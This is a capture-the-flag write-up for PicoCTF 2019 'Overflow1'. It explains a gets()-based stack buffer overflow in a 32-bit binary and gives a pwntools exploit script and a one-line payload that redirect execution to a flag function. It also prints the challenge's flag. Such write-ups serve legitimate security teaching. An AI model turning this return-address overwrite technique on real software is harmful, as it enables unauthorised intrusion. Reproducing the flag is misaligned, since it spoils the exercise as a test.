 # PicoCTF 2019 - Binary Exploit - Overflow1

Simple buffer overflow,
the actual vulnerability is inside the function 'vuln'

## The vulnerability
it calls 'gets', a function that is known to be very dangerous (it even says it in the man page to never use this function) The reason this function is dangerous is because of how it works: 'gets(char \*s) reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0'). No check for buffer overrun is performed, so it keeps reading input, even if this is way bigger than the amount of memory allocated for that string causing it to overwrite values from the stack.

## File info
```
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow1]$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow1]$ checksec vuln
[*] '/home/sain/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```
## Exploiting it
The plan is to overwrite the return address by overflowing the buffer and rewriting the values on the stack.

First we need to find the buffer (how many characters are allocated to fit in the given string)

We are given the source code so we can see the 'buffsize' variable which is the used buffer here for our string, so our string is allocated to hold 64 characters

so if we give as input a string of 64 characters + 4 characters we are overflowing our buffer.. yay :)

but we arent overwriting our return pointer yet, its still a few bytes out of range!

if we dissassembly and go through the 'vuln' function step by step we can see the return address gets loaded from [ebp-0x4]
so lets walk through the program

___Registers note___;

* __esp__ = the stack pointer; it points to where the stack begins (the 'top' of the stack)

* __ebp__ = the stack frame pointer;

The stack grows from esp -> ebp -> and past it

![picture alt](https://i.gyazo.com/4f6fe4c601e114590933f72ca9aa6f54.png)

The look from $esp:

![picture alt](https://i.gyazo.com/7f06c8a65a792ed684dc6cf60e71b029.png)

As you can see, using a string "A" of length 64 we are still, 12 bytes of overwriting the return address to main
The address we want to overwrite is  `0x08048705` - it points to main+103
so we need to add 12 bytes to our overflow + another 4 bytes containing the address we want to jump to which is the flag function ( located @ `0x080485e6` )

Here is another picture of our stack
the string used was "A" * 64 + "B" * 12

![picture alt](https://i.gyazo.com/053b6657196d6664ebb6991b1d8504e8.png)

As you can see adding the 12 more bytes puts with the character B (0x42) puts the main address (`0x08048700`) right next to us 
(idk why it now points to main+98 and +103 earlier) 
now all that is left is to write the remaining 4 bytes as a address to the function we want
_Remember that you have to write the target address in little endian!_

now to write our exploit script, i used python & pwntools (note: this is setup to work locally, if you want it to work on the picoCTF server check exploit.py -i couldnt get the script to work properly using the pwntools ssh so you are supposed to run it manually now);

```python
from pwn import *
# Flag function is located @ 0x080485e6
flag_function = util.packing.p32(0x080485e6)
# overwrite our buffer + the 3 other addresses we dont need
buff = "A" * 64 + "B" * 12
payload = buff + flag_function
p = process("./vuln")
p.recvuntil("")
p.sendline(payload)
print p.recvall()
```

I had some trouble with the script but the output should be something like:
```
Sain@pico-2019-shell1:/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a$ python -c "print 'A' * 76 + '\xe6\x85\x04\x08'" | ./vuln
Give me a string and lets see what happens:
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5bbbf8810}Segmentation fault (core dumped)
```
